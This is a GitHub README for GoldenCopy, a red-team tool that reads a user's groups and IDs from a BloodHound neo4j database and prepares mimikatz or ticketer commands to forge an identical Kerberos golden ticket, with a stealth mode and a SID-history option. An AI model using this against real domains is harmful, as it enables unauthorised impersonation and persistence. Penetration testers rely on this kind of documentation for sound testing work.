 # GoldenCopy

You encounter limitations with your golden tickets (DACLs, detection)? 
GoldenCopy retrieves all the information (ID, groups, etc) of a specific user in a neo4j database (bloodhound) and prepares the mimikatz/ticketer command to impersonate his permissions.

## Installation

**GoldenCopy** works with python >= 3.6

### Using pip
```bash
python3 -m pip install GoldenCopy
```
PyPi repository: https://pypi.org/project/GoldenCopy/

### From source
```bash
git clone https://github.com/Dramelac/GoldenCopy.git
cd GoldenCopy
python3 setup.py install
```

## Examples

- Impersonating 'john@domain.local' using default localhost neo4j (neo4j/exegol4thewin) database:
```bash
goldencopy john@domain.local
```
- Impersonating 'DC1' computer using default database connection:
```bash
goldencopy 'DC1$'
```
- Custom neo4j DB:
```bash
goldencopy -b neo4j.server.local -u neo4juser -p neo4jpass john@domain.local
```
- Adding stealth mode:
```bash
goldencopy -b bolt://neo4j.server.local:7687 -u neo4juser -p neo4jpass -s john@domain.local
```
- Using specific tools:
```bash
goldencopy -t mimikatz john@domain.local
```
```bash
goldencopy -t ticketer john@domain.local
```

## Usages

```
usage: goldencopy.py [-h] [-v] [-b BOLT] [-u USERNAME] [-p PASSWORD]
                     [-t {mimikatz,ticketer,all}] [-s] [-k KRBTGT] [-g GROUPS]
                     [--sid SID] [-c CUSTOM]
                     target_user

GoldenCopy - Copy the properties and groups of a user from neo4j to create an
identical golden ticket

positional arguments:
  target_user           Target user to copy (format: <username>[@<domain>])

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Enable verbose logging

Neo4j connection configuration:
  -b BOLT, --bolt BOLT  Neo4j bolt connexion (default: bolt://127.0.0.1:7687)
  -u USERNAME, --username USERNAME
                        Neo4j username (default : neo4j)
  -p PASSWORD, --password PASSWORD
                        Neo4j password (default : exegol4thewin)

Ticket configuration:
  -t {mimikatz,ticketer,all}, --tools {mimikatz,ticketer,all}
                        Ticket creation tools (default : all)
  -s, --stealth         Stealth mode (default : disable)
  -k KRBTGT, --krbtgt KRBTGT
                        KRBTGT RC4,AES Key

Advanced ticket configuration:
  -g GROUPS, --groups GROUPS
                        Manually add extra group ids (can be separated by
                        commas)
  --sid SID             Manually add extra sids (SID history) (can be
                        separated by commas)
  -c CUSTOM, --custom CUSTOM
                        Custom options
```